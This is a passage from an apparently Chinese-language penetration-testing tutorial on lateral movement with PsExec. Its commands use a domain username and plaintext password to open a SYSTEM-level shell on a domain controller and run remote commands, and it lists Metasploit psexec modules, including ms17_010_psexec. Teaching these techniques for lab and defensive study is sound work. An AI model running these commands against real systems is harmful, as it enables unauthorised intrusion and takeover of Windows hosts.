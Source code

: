 ```cobol
`PsExec.exe -accepteula \\192.168.52.138 -u god\liukaifeng01 -p Liufupeng123 -s cmd.exe`



AI写代码
```

* \-accepteula：第一次运行psexec会弹出确认框，使用该参数就不会弹出确认框
  
* \-u：用户名
  
* \-p：密码
  
* \-s：以system权限运行运程进程，获得一个system权限的交互式shell。如果不使用该参数，会获得一个连接所用用户权限的shell
  

执行如上命令后，我们就可以获的目标主机DC的System权限的Shell：

![](https://i-blog.csdnimg.cn/blog_migrate/d5b944faad35ee78648623eacb993c1b.jpeg)

这里，如果我们提前与目标机建立了基于administrator用户的ipc连接，那么我们可以不用指定用户名和密码，直接连接即可：

```cobol
`PsExec.exe -accepteula \\192.168.183.130 cmd.exe`



AI写代码
```

我们不仅可以用PsExec得到目标主机的shell，也可以直接执行命令：

```cobol
`PsExec.exe \\192.168.183.130 <Command>PsExec.exe \\192.168.183.130 cmd.exe /c "ipconfig"PsExec.exe \\192.168.183.130 -u demo\administrator -p Liu78963 cmd.exe /c "ipconfig"// 用目标系统的cmd.exe的/c选项在目标主机上执行命令，并得到回显（与前面的at命令相似）`



AI写代码
```

![](https://i-blog.csdnimg.cn/blog_migrate/9a1816c5bf86a387a2ce02f2207e31f1.jpeg)

#### Metasploit下的PsExec模块

在metasploit框架下，有以下这几个psexec模块：

![](https://i-blog.csdnimg.cn/blog_migrate/20348dbbe5b67a5a04c5752391e18f6b.jpeg)

常用的模块有：

```cobol
`exploit/windows/smb/psexec           // 用psexec执行系统命令,与psexec.exe相同exploit/windows/smb/psexec_psh       // 使用powershell作为payload(PsExec的PowerShell版本)auxiliary/admin/smb/psexec_command   // 在目标机器上执行系统命令exploit/windows/smb/ms17_010_psexec`



AI写代码
```
